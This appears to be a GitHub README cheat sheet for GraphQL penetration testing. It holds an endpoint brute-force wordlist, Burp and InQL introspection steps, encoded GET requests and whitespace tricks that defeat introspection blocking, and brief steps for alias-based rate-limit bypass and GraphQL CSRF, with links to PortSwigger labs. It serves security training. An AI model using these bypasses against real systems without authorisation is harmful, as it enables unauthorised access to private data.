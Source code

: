 ## Index

1. [Common GraphQL Endpoints](#common-end-point-of-graphql-api)
2. [Analyzing GraphQL API with Burp](#analyzing-graphql-api-with-burp)

   * Introspection
   * InQL Plugin
3. [Bypassing GraphQL Introspection Defenses](#bypassing-graphql-introspection-defenses)

   * Special Characters Trick
   * Changing HTTP Method or Content-Type
   * Sample Encoded GET Requests
4. [Accessing Private GraphQL Posts](#accessing-private-graphql-posts)
5. [Bypassing Rate Limiting Using Aliases](#bypassing-rate-limiting-using-aliases)
6. [GraphQL CSRF Exploitation](#graphql-csrf)

---

## Common end-point of GraphQL Api

In some cases GraphQL endpoint is not visible, so we can try to bruteforce the endpoint.
```
/graphql
/graphql/
/graphql/v1
/graphql/v2
/graphql/api
/graphql/endpoint
/graphql/query
/graphql/playground
/graphql-console
/graphql-explorer
/api
/api/graphql
/api/v1/graphql
/api/v2/graphql
/api/gql
/api/query
/api/data/graphql
/gql
/gql/
/gql/api
/gql/v1
/gql/v2
/gql/query
/backend/graphql
/internal/graphql
/dev/graphql
/v1/graphql
/v2/graphql
/server/graphql
/graphql-server
/graphql/engine
/graphql-service
/graphql-gateway
/graphql_dev
/graphql_beta
/graphql_test
/graphql_test_api
/query
/query/graphql
/graphql/queryEngine
/graph
/graph/query
/graphqljson
/json/graphql
/graphql.json
/graphqlapi
/graphqlinterface
/graphqlapi/v1
/graphql/graph
/graphql-service/v1
```

## Analyzing Graphql Api With Burp

We can analyze Graphql api in various way using Burpsuite. Here are some methodologies:

**Analyzing via Introspection :**

`Repeater > Graphql > Set Introspection Query > Send > GraphQL > Save GraphQL queries to site map > Target > Site map` 

**Analyzing via InQL :**

`InQL > Provide URL of the GraphQL Endpoint > Analyze`

## Bypassing GraphQL introspection defenses

In some cases, developers disable this Introspection feature. However we can bypass this by manually analyzing the endpoint.

1. **Bypass with special characters**:
   Developers may use weak regex to block `__schema`. You can insert characters like **spaces, newlines, or commas**, which are ignored by GraphQL but may bypass the regex.

   * Example:

     ```graphql
     query {
       __schema
       {
         queryType { name }
       }
     }
     ```

2. **Change request method**:
   Introspection may be disabled only for certain request types.

   * Try **GET** instead of **POST**.
   * Use `Content-Type: application/x-www-form-urlencoded` instead of JSON.

3. **Example GET request with encoded query**:

   ```
   GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
   GET /graphql?query=query%7B__schema%7Btypes%7Bname%7D%7D%7D
   GET /graphql?query=query%7B__type%28name%3A%22User%22%29%7Bfields%7Bname%7D%7D%7D
   GET /graphql?query=query%7B__schema%7Bdirectives%7Bname%20locations%7D%7D%7D
   GET /graphql?query=query%7B__schema%7BmutationType%7Bfields%7Bname%7D%7D%7D%7D
   GET /graphql?query=query%7B__schema%7BsubscriptionType%7Bfields%7Bname%7D%7D%7D%7D
   GET /graphql?query=query%7B__type%28name%3A%22User%22%29%7Bfields%7Bname%20args%7Bname%20type%7Bname%20kind%7D%7D%7D%7D%7D
   GET /graphql?query=query%7B__schema%0A%7BqueryType%0A%7Bname%7D%7D%7D
   GET /graphql?query=query%7B__typename%7D
   ```
For more: [Portswigger](https://portswigger.net/web-security/graphql#bypassing-graphql-introspection-defenses)

Portswigger Lab: [Finding a hidden GraphQL endpoint](https://portswigger.net/web-security/graphql/lab-graphql-find-the-endpoint)

PoC: [YouTube](https://youtu.be/RBKU4s0-Gd0?si=a92s8NIBi2z0DmUj)

## Accessing private GraphQL posts

Step:
  1. Copy the url that have Graphql endpoint.
  2. InQL >> Paste url >> Analyze
  3. In the box below we can get the analyzed details of the Graphql api.
  4. Send the query to the repeater and modify the details if needed. 
  
## Bypassing rate limiting using aliases

Details: [Portswigger](https://portswigger.net/web-security/graphql#bypassing-rate-limiting-using-aliases)

Portswigger Lab: [Bypassing GraphQL brute force protections](https://portswigger.net/web-security/graphql/lab-graphql-brute-force-protection-bypass)

PoC: [YouTube](https://www.youtube.com/watch?v=sKWah9eqWR4)

## GraphQL CSRF

Step:
  1. Change `Content-Type: application/json` to `Content-Type: application/x-www-form-urlencoded`
  2. Change request body from json to parameter based body.
  3. Generate CSRF PoC and test request in browser.

Details: [Portswigger](https://portswigger.net/web-security/graphql#bypassing-rate-limiting-using-aliases)

Portswigger Lab: [Performing CSRF exploits over GraphQL](https://portswigger.net/web-security/graphql/lab-graphql-csrf-via-graphql-api)

PoC: [YouTube](https://www.youtube.com/watch?v=FVW2ZRNAyw8)
